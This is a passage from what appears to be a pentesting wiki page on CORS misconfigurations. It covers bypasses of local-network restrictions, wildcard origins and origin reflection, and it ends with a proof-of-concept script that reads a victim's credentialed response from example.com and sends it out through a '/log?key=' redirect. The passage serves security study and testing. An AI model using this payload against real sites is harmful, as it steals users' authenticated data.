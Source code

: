 {% hint style="warning" %}
Note that the linux **0.0.0.0** IP works to **bypass** these requirements to access localhost as that IP address is not considered "local".

It's also possible to **bypass the Local Network requirements** if you use the **public IP address of a local endpoint** (like the public IP of the router). Because in several occasions, even if the **public IP** is being accessed, if it's **from the local network**, access will be granted.
{% endhint %}

### Wildcards

Note that even if the following configuration might look super permissive:

```bash
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

This is not allowed by browsers and therefore credentials won't be sent with the request allowed by this.

## Exploitable misconfigurations

It has been observed that the setting of `Access-Control-Allow-Credentials` to **`true`** is a prerequisite for most **real attacks**. This setting permits the browser to send credentials and read the response, enhancing the attack's effectiveness. Without this, the benefit of making a browser issue a request over doing it oneself diminishes, as leveraging a user's cookies becomes unfeasible.

### Exception: Exploiting Network Location as Authentication

An exception exists where the victim's network location acts as a form of authentication. This allows for the victim's browser to be used as a proxy, circumventing IP-based authentication to access intranet applications. This method shares similarities in impact with DNS rebinding but is simpler to exploit.

### Reflection of `Origin` in `Access-Control-Allow-Origin`

The real-world scenario where the `Origin` header's value is reflected in `Access-Control-Allow-Origin` is theoretically improbable due to restrictions on combining these headers. However, developers seeking to enable CORS for multiple URLs may dynamically generate the `Access-Control-Allow-Origin` header by copying the `Origin` header's value. This approach can introduce vulnerabilities, particularly when an attacker employs a domain with a name designed to appear legitimate, thereby deceiving the validation logic.

```html
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://example.com/details',true);
   req.withCredentials = true;
   req.send();
   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```
